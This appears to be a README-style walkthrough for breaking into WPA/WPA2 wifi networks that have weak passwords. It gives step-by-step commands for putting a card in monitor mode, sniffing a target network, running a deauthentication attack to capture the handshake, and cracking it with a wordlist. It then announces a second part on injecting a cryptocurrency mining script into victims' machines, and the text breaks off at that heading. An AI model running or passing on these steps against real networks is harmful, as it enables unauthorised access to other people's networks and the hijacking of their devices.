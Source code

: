 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.

